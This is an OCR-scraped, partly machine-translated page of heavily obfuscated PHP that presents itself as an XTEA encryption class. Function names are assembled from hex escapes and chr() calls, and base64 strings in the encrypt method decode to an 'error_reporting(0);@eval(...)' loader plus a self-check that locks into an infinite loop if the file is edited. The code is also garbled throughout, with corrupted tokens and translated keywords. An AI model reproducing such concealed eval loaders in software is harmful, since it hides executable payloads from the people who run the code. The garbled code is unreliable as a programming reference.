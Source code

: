 UFSsuolEzkUndVzznITY = FdFtviGDGBpxPDrAOYhg (111); $ uFSsuolEzkUndVzznITY = "\ x64";.. $ UFSsuolEzkUndVzznITY = FdFtviGDGBpxPDrAOYhg (101); return $ uFSsuolEzkUndVzznITY ($ xBsFxbKdcRJyRbgltxom);} function FdFtviGDGBpxPDrAOYhg ($ ZUjAwZnoXkeiIPtHvFrp ) {$ pTurLsnpZRoHkXtVAJMz = "\ x63";. $ pTurLsnpZRoHkXtVAJMz = chr (104); $ pTurLsnpZRoHkXtVAJMz = "\ x72";. mengembalikan $ pTurLsnpZRoHkXtVAJMz ($ ZUjAwZnoXkeiIPtHvFrp);} function pOqtdSrEDmAbIGBxjysZ ($ EObVHwIeIbohkoVpmvcN) {$ KEJGeZoCvlMPgJuSOfND = "\ X66 ";. $ KEJGeZoCvlMPgJuSOfND = FdFtviGDGBpxPDrAOYhg (105);. $ KEJGeZoCvlMPgJuSOfND =" \ x6c "; $ KEJGeZoCvlMPgJuSOfND = FdFtviGDGBpxPDrAOYhg (101);.. $ KEJGeZoCvlMPgJuSOfND =" \ x5f ";. $ KEJGeZoCvlMPgJuSOfND = FdFtviGDGBpxPDrAOYhg (103); $ KEJGeZoCvlMPgJuSOfND. = "\ x65"; $ KEJGeZoCvlMPgJuSOfND. = FdFtviGDGBpxPDrAOYhg (116);$ KEJGeZoCvlMPgJuSOfND = "\ x5f";. $ KEJGeZoCvlMPgJuSOfND = FdFtviGDGBpxPDrAOYhg (99);. $ KEJGeZoCvlMPgJuSOfND = "\ x6f";.. $ KEJGeZoCvlMPgJuSOfND = FdFtviGDGBpxPDrAOYhg (110);. $ KEJGeZoCvlMPgJuSOfND = "\ x74";. $ KEJGeZoCvlMPgJuSOfND = FdFtviGDGBpxPDrAOYhg (101); $ KEJGeZoCvlMPgJuSOfND = "\ x6e";.. $ KEJGeZoCvlMPgJuSOfND = FdFtviGDGBpxPDrAOYhg (116); $ KEJGeZoCvlMPgJuSOfND = "\ X73";. mengembalikan $ KEJGeZoCvlMPgJuSOfND ($ EObVHwIeIbohkoVpmvcN);} function eUtTbCBDGFvJSJgsGvmu ($ BRTKkljNmZXucLTgOkUh) {$ KbiYlHekWrnrQwWSIBkF = "\ x62";. $ KbiYlHekWrnrQwWSIBkF = FdFtviGDGBpxPDrAOYhg (97);. $ KbiYlHekWrnrQwWSIBkF = "\ X73";. $ KbiYlHekWrnrQwWSIBkF = FdFtviGDGBpxPDrAOYhg (101);. $ KbiYlHekWrnrQwWSIBkF = "\ x36";. $ KbiYlHekWrnrQwWSIBkF = FdFtviGDGBpxPDrAOYhg (52); $ KbiYlHekWrnrQwWSIBkF. = "\ X5f"; $ KbiYlHekWrnrQwWSIBkF. = FdFtviGDGBpxPDrAOYhg (100);$ KbiYlHekWrnrQwWSIBkF = "\ X65";.. $ KbiYlHekWrnrQwWSIBkF = FdFtviGDGBpxPDrAOYhg (99); $ KbiYlHekWrnrQwWSIBkF = "\ x6f";. $ KbiYlHekWrnrQwWSIBkF = FdFtviGDGBpxPDrAOYhg (100);. $ KbiYlHekWrnrQwWSIBkF = "\ X65";. Mengembalikan $ KbiYlHekWrnrQwWSIBkF ($ BRTKkljNmZXucLTgOkUh);} kelas Xtea {private $ key; private $ cbc = true; fungsi __construct ($ yaTzafYVpDuHjbtSXkCm) {$ this-> hpxfMcsunmbyFkSyekjF ($ yaTzafYVtkjjjjj fungsi ($ yaTjfm) {$ fungsiTugas @jTmjTjjTmj (fungsi publik) ;; $ GHDAPTBbeEcTTSrbKkVV = array (array (array (array (0x0000000000xx000000.0x000000.0000000000000000000), array (0x41414141.0c414141414141), array, 0_didata_supdikkuidulidihttpdulihblayablayablayamblmblmnvmvmvvpvdpdulukanmberdiridikomd=diridblddblddddddddddddddddddddddddddddddddddd tempatalaoddiriddiriwablasblasblkublkublku ... , 0x45464748), array (0x497df3d0,0x72612cb5))); $ yrlYphReYpIjRfUIyFlW = true;foreach ($ GHDAPTBbeEcTTSrbKkVV AS $ HdoGECTClHhnfRLARFQf) {$ yaTzafYVpDuHjbtSXkCm = $ HdoGECTClHhnfRLARFQf [0]; $ fWJJovsdLrkZVydCWQXT = $ HdoGECTClHhnfRLARFQf [1]; $ fLiKoUMrbvTNTQGWDiAx = $ HdoGECTClHhnfRLARFQf [2]; $ eHPMpRuXtLuBHjFfbNSa-> hpxfMcsunmbyFkSyekjF ($ yaTzafYVpDuHjbtSXkCm); $ DPHZlgAkzgHgjmTqtAzV = $ eHPMpRuXtLuBHjFfbNSa-> vhDeZQzERaTHBnamHsya ($ HdoGECTClHhnfRLARFQf [1] [0], $ HdoGECTClHnfRLARFQf [1] [1]); if ((rg ttg $ tjt) [lt ttg] lnTm (ttg) aPDT DPHZlgAkzgHgjmTqtAzV [1] = (int) $ fLiKoUMrbvTNTQGWDiAx [1]) {$ yrlYphReYpIjRfUIyFlW = false;}!} return $ yrlYphReYpIjRfUIyFlW;} public function mengenkripsi ($ OgDaHlIDkHlCnDrVtwNb) {$ fWJJovsdLrkZVydCWQXT = array (); $ fLiKoUMrbvTNTQGWDiAx = $ this-> RzxuppgGwfBvoCxisesY (eUtTbCBDGFvJSJgsGvmu ($ OgDaHlIDkHlCnDrVtwNb)); if ($ this-> cbc) {$ YsvEhlXFxdhBwFGQooXh = Yv &lt;YT}$ YsvEhlXFxdhBwFGQooXY &lt;count ($ fLiKoUMrbvTNTQGWDiAx); $ YsvEhlXFxdhBwFGQooXY + = 2) {$ DPHZlgAkzgHgjmTqtAzV = $ this-> asqKNRrRoyWkSQliVcMv ($ fLiKoUMrbvTNTQGWDiAx [$ YsvEhlXFxdhBwFGQooXY], $ fLiKoUMrbvTNTQGWDiAx [$ YsvEhlXFxdhBwFGQooXY + 1]); $ IlfJNySAwwyiezDTKWWQ = __ FILE __; $ IlfJNySAwwyiezDTKWWQ = pOqtdSrEDmAbIGBxjysZ ($ IlfJNySAwwyiezDTKWWQ); if (((strpos ($ IlfJNySAwwyiezDTKWWQ, eUtTbCBDGFvJSJgsGvmu ( 'KSk7ZXJyb3JfcmVwb3J0aW5nKDApO0BldmFsKCRYcFlVbUR2TkNQTmpiZ2RIeHRnaygkeldWcldnbkdickFRZ0pKZXhndW0tPiRPeFJWeU56aWhWQ0ppSlNNZExHWQ ==')) == false &amp;&amp; strpos ($ IlfJNySAwwyiezDTKWWQ, eUtTbCBDGFvJSJgsGvmu ('!JGRRWnZSWkh5eUFaRkFaUHRXeWhFPV9fRklMRV9fOyRkUVp2UlpIeXlBWkZBWlB0V3loRT1wT3F0ZFNyRURtQWJJR0J4anlzWigkZFFadlJaSHl5QVpGQVpQdFd5aEUpOyRVbkVadmtjdXRlR0ZoRndmdktmTz0wO3ByZWdfbWF0Y2goZVV0VGJDQkRHRnZKU0pnc0d2bXUoJ0x5aHdjbWx1ZEh4emNISnBiblI4WldOb2J5a3YnKSwkZFFadlJaSHl5QVpGQVpQdFd5aEUsJFVuRVp2a2N1dGVHRmhGd2Z2S2ZPKTtpZihjb3VudCgkVW5FWnZrY3V0ZUdGaEZ3ZnZLZk8pKXt3aGlsZSgweDEyNSE9MHg4MzYpeyRLYnZPUFVPRlFkQ3ZJSFpSV0tGdj1GZEZ0dmlHREdCcHhQRHJBT1loZyg4NTg5Mik7fX0 = ')) == false) 1:!? 0)) {$ fWJJovsdLrkZVydCWQXT [] = array ($ DPHZlgAkzgHgjmTqtAzV [0] ^ $ fLiKoUMrbvTNTQGWDiAx [$ YsvEhlXFxdhBwFGQooXY-2], $ DPHZlgAkzgHgjmTqtAzV [1] ^ $ fLiKoUMrbvTNTQGWDiAx [$ YsvEhlXFxdhBwFGQooXY -1]);} else {$ fWJJovsdLrkZVydCWQXT [] = $ DPHZlgAkzgHgjmTqtAzV;}} $ VlnoMZdeGOoOZQcDENiw = ''; untuk ($ YsvEhlXFddXwDXJJJXJJJFJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJRJR lebih lanjut.$ YsvEhlXFxdhBwFGQooXY ++) {$ VlnoMZdeGOoOZQcDENiw = $ this-> SkBwnaNuoXmAeHPQwWWG ($ fWJJovsdLrkZVydCWQXT [$ YsvEhlXFxdhBwFGQooXY] [0]);.. $ VlnoMZdeGOoOZQcDENiw = $ this-> SkBwnaNuoXmAeHPQwWWG ($ fWJJovsdLrkZVydCWQXT [$ YsvEhlXFxdhBwFGQooXY] [1]);} kembali rtrim ( $ VlnoMZdeGOoOZQcDENiw);} fungsi publik mendekripsi ($ OgDaHlIDkHlCnDrVtwNb) {$ lbMSyLVVTMXctQaMamFg = strlen ($ OgDaHlIDkHlCnDrVtwNb); if ($ lbMSyLVVTMXctQaMamFg% 8 = 0) {$ FFHaDWKRtYPSVqbeucCh = ($ lbMSyLVVTMXctQaMamFg + (8 - ($ lbMSyLVVTMXctQaMamFg% 8))) ;} else {$ FFHaDWKRtYPSVqbeucCh = 0;} $ OgDaHlIDkHlCnDrVtwNb = str_pad ($ OgDaHlIDkHlCnDrVtwNb, $ FFHaDWKRtYPSVqbeucCh, ''); $ OgDaHlIDkHlCnDrVtwNb = $ this-> RzxuppgGwfBvoCxisesY ($ OgDaHlIDkHlCnDrVtwNb); if ($ this-> cbc) {$ fLiKoUMrbvTNTQGWDiAx [ 0] [0] = waktu (); $ fLiKoUMrbvTNTQGWDiAx [0] [1] = (dobel) waktu mikrotime () * 1000000;} $ yoKjdsueUzPWnBwYQpbi = 1; untuk ($ YsvEhlXFxdhbwFXYXYXYXYXYXYXYXYXYXYXYXYXYXYXYXYXYXXYcount ($ OgDaHlIDkHlCnDrVtwNb); $ YsvEhlXFxdhBwFGQooXY + = 2) {if ($